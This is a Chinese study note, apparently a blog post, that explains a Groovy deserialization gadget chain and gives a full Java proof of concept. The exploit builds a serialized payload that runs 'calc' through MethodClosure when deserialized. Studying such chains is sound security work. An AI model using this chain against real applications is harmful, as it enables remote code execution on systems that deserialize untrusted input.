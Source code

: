 加上ConvertedClosure继承了ConversionHandler

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021203330538.png)

这是个典型的动态代理类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021203351155.png)

invoke方法里调用了invokeCustom

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021203441854.png)

ConversionClosure随便代理一个类，由于call无参，只要类有无参方法即可。

最好是readObject有无参方法的，这样就能一步到位链起来。那就代理Map吧，然后用AnnotationInvocationHandler.readObject去调用Map.entrySet

注意这里AnnotationInvocationHandler并没有起到一个代理的作用

POC：

```java
public class ConversionHandler {
    public static void main(String[] args) throws Exception
    {
        MethodClosure mc = new MethodClosure("calc","execute");
        ConvertedClosure closure = new ConvertedClosure(mc);
        Object proxyConvertedClosure = Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},closure);//ConversionClosure代理Map
        Class annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annoconstructor = annotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        annoconstructor.setAccessible(true);
        Object annotationInvocationHandlerInstance = annoconstructor.newInstance(Target.class,null);
        Field memberValuesField = annotationInvocationHandler.getDeclaredField("memberValues");
        memberValuesField.setAccessible(true);
        memberValuesField.set(annotationInvocationHandlerInstance,proxyConvertedClosure);
        serialize(annotationInvocationHandlerInstance);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```
